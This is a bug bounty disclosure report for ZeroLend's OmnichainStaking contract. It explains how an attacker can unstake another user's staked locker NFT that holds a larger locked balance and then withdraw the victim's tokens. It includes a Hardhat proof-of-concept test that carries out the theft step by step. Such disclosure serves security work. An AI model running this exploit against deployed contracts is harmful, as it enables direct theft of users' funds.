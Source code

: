 
# Attacker can steal locked balance of staked nft at OmnichainStaking

Submitted on Mar 6th 2024 at 04:05:14 UTC by @MahdiKarimi for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #29062

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/zerolend/governance

Impacts:
- Direct theft of any user NFTs, whether at-rest or in-motion, other than unclaimed royalties
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Description
## Brief/Intro
The OmnichainStaking's unstake function allows anyone to unstake any token by just burning associated voting power, since voting power is based on locked balance and lock duration so two different NFTS with different locked balances can have the same amount of power which allows an attacker to exchange an NFT with some locked balance for an NFT with more locked balance and shorter lock duration. 
The attacker can mint a tokenLocker NFT by locking some tokens for a long duration, stake it at OmnichainStaking to receive voting power, and use minted voting power to Unstake another NFT ( staked by another user ) with more locked balance and shorter lock duration from OmnichainStaking.
## Vulnerability Details
Users can utilize TokenLocker to create a lock by staking a certain amount of Zero tokens for a specified duration. TokenLocker then generates a unique NFT that represents the locked amount and the duration of the lock. Each NFT has a power value, calculated based on the locked amount and duration; more tokens and a longer lock duration contribute to a higher power. Users can stake these NFTs at OmnichainStaking contract and receive voting power proportional to the power of the TokenLocker NFT, OmnichainStaking has an unstakeToken function that allows anyone to unstake a token by burning the amount of voting power associated with that NFT.
users can receive the same amount of voting power by locking different amounts of Zero tokens due to different durations, this creates a situation that enables attackers to lock some amount of tokens for a long duration to receive voting power and use that voting power to unstake a tokenLocker NFT with more locked balance and lower lock duration.

Consider the following scenario : 
1 - Alice creates a lock with 40 Zero tokens for two years 
2 - Alice transfers minted NFT to omnichainStakign to receive voting power 
3 - Bob creates a lock with 20 Zero tokens for four years 
4 - Alice and Bob would receive the same amount of voting power ( both NFTs have the same power) 
5 - Bob Unstakes NFT of Alice from omniChainStaking ( he has enough voting power since both NFTs have minted the same voting power)
6 - Now Bob has an NFT representing 40 tokens locked for two years while he staked 20 tokens for 4 years. 
7 - Now Alice is forced to Unstake Bob's NFT which has 20 locked balances and has been locked for 4 years, he lost 20 tokens .

## Impact Details
Attackers can steal the locked balance of other users which is direct theft of funds. 
Also users can be forced to stake for a longer time.
## References
https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/locker/BaseLocker.sol#L147
https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/locker/BaseLocker.sol#L112-L116
https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/locker/BaseLocker.sol#L362-L364
https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/locker/OmnichainStaking.sol#L68-L70
https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/locker/OmnichainStaking.sol#L76-L79



## Proof of Concept
```
  describe("attacker can drain staked amount of tokenLocker", () => {
    it("attacker can drain staked amount of tokenLocker", async function () {

    // impoerted whale address from goverancne deployment 
    // imported time from hardhat-network-helpers 
    // transferred 20 zero token to whale and 40 zero token to ant address during deployment 
    // removed vesting part from beforeEach 

    let fourYearInSeconds = 124416000;
    let twoYearInSeconds = 62208000;

    // attacker (whale) has 20 Zero tokens
    let balanceOfAttackerBefore = await zero.balanceOf(whale);
    expect(balanceOfAttackerBefore).eq(20n * e18);
    
    // Victim (ant) creates a lock with 40 Zero tokens for duration of 2 years 
    // ant transferrs minted nft to OmnichainStaking and receives power 
    zero.connect(ant).approve(locker.target, 40n * e18);
    await locker.connect(ant).createLock(40n * e18, twoYearInSeconds, false);
    await locker.connect(ant)["safeTransferFrom(address,address,uint256)"](ant.address, omniStaking.target, 1);

    // whale creates a lock with 20 Zero tokens but for duration of 4 years 
    // he transferrs minted nft to OmnichainStaking 
    // despite that he has locked half of ant address but due to more lock duration (2 times of ant) he would receive almost same amount of power 
    zero.connect(whale).approve(locker.target, 20n * e18);
    await locker.connect(whale).createLock(20n * e18, fourYearInSeconds, false);
    await locker.connect(whale)["safeTransferFrom(address,address,uint256)"](whale.address, omniStaking.target, 2);

    // we can assert that whale has more power than ant 
    let balanceWhale = await omniStaking.balanceOf(whale.address);
    let balanceAnt = await omniStaking.balanceOf(ant.address);
    expect(balanceWhale).greaterThanOrEqual(balanceAnt);

    // whale can unstake minted nft of ant from tokenLocker since he has enough power 
    // this nft has two times more lockedBalance 
    await omniStaking.connect(whale).unstakeToken(1);

    // after 2 years he can withdraw this token from locker 
    // Now whale has 40 Zero token balance 
    // so ant address should use his voting power to other token with 20 Zero balance and 4 years of lock duration

    await time.increase(twoYearInSeconds);
    await locker.connect(whale).withdraw(1);
    let balanceOfAttacker = await zero.balanceOf(whale);
    expect(balanceOfAttacker).eq(40n * e18);


    });
    
  });
```
